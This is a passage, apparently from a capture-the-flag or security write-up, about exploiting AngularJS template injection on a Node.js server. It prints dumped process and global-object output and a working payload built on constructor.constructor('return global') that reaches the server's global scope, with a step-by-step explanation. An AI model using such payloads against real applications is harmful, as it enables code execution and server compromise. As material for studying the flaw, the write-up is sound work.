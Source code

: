 ```
	"unicode": "10.0",
	"cldr": "32.0",
	"tz": "2017c"
	},
	"arch": "x64",
	"platform": "linux",
	"env": {},
	"pid": 83,
	"features": {
	"debug": false,
	"uv": true,
	"ipv6": true,
	"tls_npn": true,
	"tls_alpn": true,
	"tls_sni": true,
	"tls_ocsp": true,
	"tls": true
	}
	},
	"console": {}
	}
```

Gives us a list of global environment variables. I have formatted it to make it more legible. 

Notice that the angular variables are missing though - we're going to have to append the `angular` property to `global` using the following, adding the json property for legibility:

`{{[constructor.constructor('return+global')().angular=this,constructor.constructor('return+global')()]+|+json}}`

The first element `{{[constructor.constructor('return+global')()` will be evaluated first, so this adds an angular attribute to the global object. By calling Angular we should be able to get the angular object.

```
"$SCOPE",
	{
	"angular": "$SCOPE",
	"process": {
	"argv": [],
	"title": "node",
	"version": "v8.11.3",
	"versions": {
	"http_parser": "2.8.0",
	"node": "8.11.3",
	"v8": "6.2.414.54",
	"uv": "1.19.1",
	"zlib": "1.2.11",
	"ares": "1.10.1-DEV",
	"modules": "57",
	"nghttp2": "1.32.0",
	"napi": "3",
	"openssl": "1.0.2o",
	"icu": "60.1",
	"unicode": "10.0",
	"cldr": "32.0",
	"tz": "2017c"
	},
	"arch": "x64",
	"platform": "linux",
	"env": {},
	"pid": 83,
	"features": {
	"debug": false,
```